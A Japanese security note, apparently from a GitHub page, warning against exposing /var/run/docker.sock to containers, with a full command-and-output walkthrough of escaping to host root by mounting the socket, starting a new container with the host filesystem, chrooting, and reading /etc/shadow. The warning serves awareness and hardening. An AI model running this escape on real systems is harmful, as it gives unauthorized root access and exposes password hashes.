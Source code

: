 
# /var/run/docker.sockを公開してはいけない
/var/run/docker.sockはdockerdと通信するためのunixソケットである。コンテナからホストOSの/var/run/docker.sockに書き込み権限があるとホストOSのrootに権限昇格が可能になる。

/var/run/docker.sockをマウントしてコンテナを起動する。
```shell
$docker container run --rm -v /var/run/docker.sock:/var/run/docker.sock -it alpine:latest /bin/sh
```
コンテナにdockerをインストールする。
```shell
/ # apk update && apk add docker
fetch http://dl-cdn.alpinelinux.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.12/community/x86_64/APKINDEX.tar.gz
v3.12.0-216-gaf4199bc57 [http://dl-cdn.alpinelinux.org/alpine/v3.12/main]
v3.12.0-213-gfedcac4c0f [http://dl-cdn.alpinelinux.org/alpine/v3.12/community]
OK: 12749 distinct packages available
(1/12) Installing ca-certificates (20191127-r4)
(2/12) Installing libseccomp (2.4.3-r0)
(3/12) Installing runc (1.0.0_rc10-r1)
(4/12) Installing containerd (1.3.4-r1)
(5/12) Installing libmnl (1.0.4-r0)
(6/12) Installing libnftnl-libs (1.1.6-r0)
(7/12) Installing iptables (1.8.4-r1)
(8/12) Installing tini-static (0.19.0-r0)
(9/12) Installing device-mapper-libs (2.02.186-r1)
(10/12) Installing docker-engine (19.03.12-r0)
(11/12) Installing docker-cli (19.03.12-r0)
(12/12) Installing docker (19.03.12-r0)
Executing docker-19.03.12-r0.pre-install
Executing busybox-1.31.1-r16.trigger
Executing ca-certificates-20191127-r4.trigger
OK: 307 MiB in 26 packages
```

コンテナ上で`docker container ls`してみると自分自身がコンテナであることがわかる。
```
/ # docker container ls
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
50bf098512e5        alpine:latest       "/bin/sh"           5 minutes ago       Up 5 minutes                            lucid_williamson
/ # cat /etc/hostname
50bf098512e5
/ # 

```

新たにコンテナを起動して、`chroot`する。
```
/ # docker container run --rm -v /:/host -it alpine /bin/sh
/ # chroot /host
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2367afbcff80:/# docker container ls
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
2367afbcff80        alpine              "/bin/sh"           53 seconds ago      Up 51 seconds                           dazzling_feynman
50bf098512e5        alpine:latest       "/bin/sh"           11 minutes ago      Up 11 minutes                           lucid_williamson
root@2367afbcff80:/# cat /etc/hostname
＜ホストOSのホスト名が返る＞
root@2367afbcff80:/# cat /etc/shadow
```

これでホストOS側のroot権限で/ディレクトリをマウントできている状態になるため、`/etc/shadow`ファイルなども閲覧可能になる。